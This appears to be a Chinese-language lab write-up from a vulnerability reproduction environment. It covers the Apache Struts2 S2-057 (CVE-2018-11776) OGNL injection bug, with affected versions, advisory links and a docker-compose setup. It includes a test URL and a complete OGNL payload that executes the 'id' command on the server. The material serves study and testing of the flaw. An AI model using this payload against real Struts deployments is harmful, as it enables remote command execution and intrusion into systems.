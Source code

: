 # Struts2 S2-057 远程命令执行漏洞（CVE-2018-11776）

当Struts2的配置满足以下条件时：

 - alwaysSelectFullNamespace值为true
 - action元素未设置namespace属性，或使用了通配符

namespace将由用户从uri传入，并作为OGNL表达式计算，最终造成任意命令执行漏洞。

影响版本: 小于等于 Struts 2.3.34 与 Struts 2.5.16

漏洞详情:

 - https://cwiki.apache.org/confluence/display/WW/S2-057
 - https://lgtm.com/blog/apache_struts_CVE-2018-11776
 - https://xz.aliyun.com/t/2618
 - https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg

## 漏洞环境

启动满足条件的 Struts 2.3.34 环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/showcase/`，将可以看到Struts2的测试页面。

## 漏洞复现

测试OGNL表达式`${233*233}`：

```
http://your-ip:8080/struts2-showcase/$%7B233*233%7D/actionChain1.action
```

![](1.png)

可见233*233的结果已返回在Location头中。

使用[S2-057原理分析与复现过程（POC）](https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg)中给出的执行任意命令的OGNL表达式：

```
${
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

可见，id命令已成功执行：

![](2.png)
